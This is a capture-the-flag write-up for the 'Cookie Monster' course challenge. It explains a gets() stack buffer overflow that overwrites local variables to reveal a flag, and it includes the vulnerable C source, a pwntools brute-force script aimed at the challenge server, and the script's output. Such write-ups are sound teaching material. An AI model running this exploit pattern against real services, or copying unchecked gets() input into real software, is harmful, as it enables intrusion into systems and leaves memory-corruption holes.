 ```yaml
---
title: "Tutor CTF: Cookie Monster"
description: (200 points) Binary Challenge
author: Kevin Zhu
public: true
uploadDate: 2022-04-08 23:15+11:00
lastModified: 2022-04-08 23:15+11:00
notes: ''
tags:
- capture the flag
- tutor ctf
- comp6841
menu:
  groups: []
  submenus: []
name: 31_tutorctf_cookie_monster
---
```


_Contest Source: [COMP6[84]41 CTF](https://www.comp6841.com/challenges)_

> _Note that all flags have been replaced with "COMP6841{REDACTED}". This is to discourage you from just blindly submitting the final answer, and to encourage you to follow along and learn something along the way._

## Exploration

We are given a netcat IP address and a exploitable buffer code. Let's look at it:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define BUFFER_SIZE 16
#define FLAG_SIZE 50
#define QUOTE_SIZE 4

char flag[FLAG_SIZE];
char quotes[QUOTE_SIZE][100] = {"NOT ENOUGH COOKIES", "I'M STILL HUNGRY", "MORE", "GRRR GIVE ME COOKIES"};

void oppsie(void) {
    char c1 = 1;
    char c2 = 1;
    char c3 = 1;
    char c4 = 1;
    char c5 = 1;
    char c6 = 1;
    char buffer[BUFFER_SIZE];
    gets(buffer);

    if (c1 == 'C' && c2 == 'O' && c3 == 'O' && c4 == 'K' && c5 == 'I' && c6 == 'E') {
        printf("%s\n", flag);
        fflush(stdout);
        exit(1);
    }
}

void cry(int counter) {
    printf("%s", quotes[counter % QUOTE_SIZE]);
    for (int i = counter*2; i > 0; i--) {
        printf("!");
    }
    printf("\n");
}

int main(int argc, char **argv){

    FILE *f = fopen("flag.txt","r");
    if (f == NULL) {
        printf("Missing flag.txt\n");
        exit(0);
    }

    fgets(flag, FLAG_SIZE, f);

    printf("HI, I'M THE COOKIE MONSTER AND I LOVE COOKIES\n");

    int counter = 0;
    while (1) {
        printf("Feed the cookie monster: ");
        fflush(stdout);
        oppsie();
        if (counter > 0) {
            cry(counter);
        }
        counter++;
    }
    return 0;
}
```

So right off the bat, it looks like the `oppsie` function is going to be pretty important, since if we can somehow get the variables `c1` to `c6` equal to "COOKIE", then we can get the flag. Unfortunately, we have no way of changing them from their initial values, so it seems impossible.

However, we can exploit a buffer overflow in the `gets(buffer)` line. `gets` is insecure, and does not check the size of the buffer when scanning in. This means that if we enter a string that is longer than BUFFER_SIZE (16 in this case), we will start to overflow our buffer and overwrite values in the stack. Hence, we can enter something like "AAAAAAAAAAAAAAAAEIKOOC" (16 A's, followed by COOKIE in reverse because we overwrite the variables in reverse order) in order to overwrite the next variables on the stack, which of course happen to be `c6`, `c5`, `c4`, etc.

## Bruteforcing with Pwntools

Though in reality, it's not all that simple. Because of how compilers will align variable addresses, we're not guaranteed that we need exactly 16 A's. It can be a little bit more than that. Thus, it's useful to write a script that will try all sorts of different numbers of A. `pwntools` provides a really nice tool that allows us to quickly connect to such a netcat server and brute force all the different numbers until we find one that works. Here's a very crude implementation that crashes as soon as it finds the correct number of A's:

```python
from pwn import *

conn = remote("13.210.180.94", 10001)
for i in range(16, 30):
    conn.recvuntil(b'Feed the cookie monster: ')
    s = b'A'*i+b'EIKOOC\n'
    conn.send(s)
    print(i, s)

conn.close()
```

Running it, we get:

```sh
$ python3 get.py
16 b'AAAAAAAAAAAAAAAAEIKOOC\n'
17 b'AAAAAAAAAAAAAAAAAEIKOOC\n'
18 b'AAAAAAAAAAAAAAAAAAEIKOOC\n'
19 b'AAAAAAAAAAAAAAAAAAAEIKOOC\n'
20 b'AAAAAAAAAAAAAAAAAAAAEIKOOC\n'
21 b'AAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
22 b'AAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
23 b'AAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
24 b'AAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
25 b'AAAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
26 b'AAAAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
Traceback (most recent call last):
  File "attack.py", line 5, in <module>
    conn.recvuntil(b'Feed the cookie monster: ')
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 333, in recvuntil
    res = self.recv(timeout=self.timeout)
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 105, in recv
    return self._recv(numb, timeout) or b''
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 183, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 154, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/sock.py", line 56, in recv_raw
    raise EOFError
EOFError
[*] Closed connection to 13.210.180.94 port 10001
```

Which tells us that 26 A's caused the program to exit without giving us another "Feed the cookie monster:" message. In other words, we've found the right number of A's to trigger the `oppsie` code! We can now manually enter in the correct string to get the flag, or alternately run pwntools in DEBUG mode so that it returns the final message before the program crashed.

```sh
$ python3 get.py DEBUG
```

